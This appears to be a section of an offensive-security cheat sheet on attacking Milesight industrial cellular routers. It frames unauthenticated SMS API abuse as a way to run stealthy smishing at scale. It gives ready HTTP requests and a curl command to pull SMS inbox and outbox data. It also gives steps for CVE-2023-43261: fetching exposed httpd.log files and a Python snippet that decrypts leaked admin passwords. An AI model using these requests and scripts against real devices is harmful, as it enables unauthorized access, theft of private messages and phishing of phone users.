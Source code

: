 
## 10. Industrial Cellular Routers – Unauthenticated SMS API Abuse (Milesight UR5X/UR32/UR35/UR41) and Credential Recovery (CVE-2023-43261)

Abusing exposed web APIs of industrial cellular routers enables stealthy, carrier-origin smishing at scale. Milesight UR-series routers expose a JSON-RPC–style endpoint at `/cgi`. When misconfigured, the API can be queried without authentication to list SMS inbox/outbox and, in some deployments, to send SMS.

Typical unauthenticated requests (same structure for inbox/outbox):

```http
POST /cgi HTTP/1.1
Host: <router>
Content-Type: application/json

{ "base": "query_outbox", "function": "query_outbox", "values": [ {"page":1,"per_page":50} ] }
```

```json
{ "base": "query_inbox", "function": "query_inbox", "values": [ {"page":1,"per_page":50} ] }
```

Responses include fields such as `timestamp`, `content`, `phone_number` (E.164), and `status` (`success` or `failed`). Repeated `failed` sends to the same number are often attacker “capability checks” to validate that a router/SIM can deliver before blasting.

Example curl to exfiltrate SMS metadata:

```bash
curl -sk -X POST http://<router>/cgi \
  -H 'Content-Type: application/json' \
  -d '{"base":"query_outbox","function":"query_outbox","values":[{"page":1,"per_page":100}]}'
```

Notes on auth artifacts:
- Some traffic may include an auth cookie, but a large fraction of exposed devices respond without any authentication to `query_inbox`/`query_outbox` when the management interface is Internet-facing.
- In environments requiring auth, previously-leaked credentials (see below) restore access.

Credential recovery path – CVE-2023-43261:
- Affected families: UR5X, UR32L, UR32, UR35, UR41 (pre v35.3.0.7).
- Issue: web-served logs (e.g., `httpd.log`) are reachable unauthenticated under `/lang/log/` and contain admin login events with the password encrypted using a hardcoded AES key/IV present in client-side JavaScript.
- Practical access and decrypt:

```bash
curl -sk http://<router>/lang/log/httpd.log | sed -n '1,200p'
# Look for entries like: {"username":"admin","password":"<base64>"}
```

Minimal Python to decrypt leaked passwords (AES-128-CBC, hardcoded key/IV):

```python
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
KEY=b'1111111111111111'; IV=b'2222222222222222'
enc_b64='...'  # value from httpd.log
print(unpad(AES.new(KEY, AES.MODE_CBC, IV).decrypt(base64.b64decode(enc_b64)), AES.block_size).decode())
```
